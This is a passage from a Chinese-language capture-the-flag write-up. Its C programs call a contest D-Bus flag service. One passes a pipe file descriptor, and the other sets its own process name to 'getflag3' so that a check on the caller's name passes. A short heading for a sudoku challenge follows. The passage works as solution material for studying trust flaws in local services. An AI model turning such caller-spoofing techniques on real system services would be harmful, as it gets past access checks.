    int pipefd[2];
    if (pipe(pipefd) == -1) {
        perror("创建管道失败");
        return EXIT_FAILURE;
    }

    // 向写端写入预期的字符串
    const char *expected_str = "Please give me flag2\n";
    if (write(pipefd[1], expected_str, strlen(expected_str)) == -1) {
        perror("向管道写入数据失败");
        close(pipefd[0]);
        close(pipefd[1]);
        return EXIT_FAILURE;
    }

    // 关闭写端，表示写入完成
    close(pipefd[1]);

    // 连接到系统总线
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("无法连接到系统总线: %s\n", error->message);
        g_error_free(error);
        close(pipefd[0]);
        return EXIT_FAILURE;
    }

    // 创建 GUnixFDList 并添加文件描述符
    fd_list = g_unix_fd_list_new();
    fd_index = g_unix_fd_list_append(fd_list, pipefd[0], &error);
    if (fd_index == -1) {
        g_printerr("无法添加文件描述符到 GUnixFDList: %s\n", error->message);
        g_error_free(error);
        g_object_unref(connection);
        close(pipefd[0]);
        g_object_unref(fd_list);
        return EXIT_FAILURE;
    }

    // 创建参数，传递文件描述符的索引
    GVariant *params = g_variant_new("(h)", fd_index);

    // 定义期望的返回类型
    GVariantType *reply_type = g_variant_type_new("(s)");

    // 调用 D-Bus 方法
    result = g_dbus_connection_call_with_unix_fd_list_sync(
        connection,
        DEST,              // 目标服务名
        OBJECT_PATH,       // 对象路径
        INTERFACE,         // 接口名
        METHOD,            // 方法名
        params,            // 参数
        reply_type,        // 期望的返回类型
        G_DBUS_CALL_FLAGS_NONE,
        -1,                // 默认超时
        fd_list,           // 传递的文件描述符列表
        &out_fd_list,      // 接收返回的文件描述符列表（如果有）
        NULL,              // GCancellable，可设为 NULL
        &error
    );

    // 释放 GVariantType
    g_variant_type_free(reply_type);

    // 释放 GUnixFDList
    g_object_unref(fd_list);

    // 关闭读端
    close(pipefd[0]);

    if (result) {
        gchar *flag;
        g_variant_get(result, "(&s)", &flag);
        printf("Flag2: %s\n", flag);
        g_variant_unref(result);
    } else {
        g_printerr("调用 D-Bus 方法失败: %s\n", error->message);
        g_error_free(error);
        g_object_unref(connection);
        return EXIT_FAILURE;
    }

    // 如果需要处理返回的文件描述符列表，可以在这里使用 out_fd_list
    if (out_fd_list) {
        // 例如，释放它
        g_object_unref(out_fd_list);
    }

    g_object_unref(connection);
    return EXIT_SUCCESS;
}

```



```Plain Text
#define _GNU_SOURCE
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    // 设置进程名为 "getflag3"
    if (prctl(PR_SET_NAME, "getflag3", 0, 0, 0) != 0) {
        perror("设置进程名失败");
        return EXIT_FAILURE;
    }

    // 连接到系统总线
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("无法连接到系统总线: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    // 调用 D-Bus 方法
    result = g_dbus_connection_call_sync(
        connection,
        DEST,                // 目标服务名
        OBJECT_PATH,         // 对象路径
        INTERFACE,           // 接口名
        METHOD,              // 方法名
        NULL,                // 参数（无参数）
        G_VARIANT_TYPE("(s)"), // 期望的返回类型
        G_DBUS_CALL_FLAGS_NONE,
        -1,                  // 默认超时
        NULL,                // GCancellable
        &error
    );

    if (result) {
        gchar *flag;
        g_variant_get(result, "(&s)", &flag);
        printf("Flag3: %s\n", flag);
        g_variant_unref(result);
    } else {
        g_printerr("调用 D-Bus 方法失败: %s\n", error->message);
        g_error_free(error);
        g_object_unref(connection);
        return EXIT_FAILURE;
    }

    g_object_unref(connection);
    return EXIT_SUCCESS;
}

```




# 零知识数独

js逆向




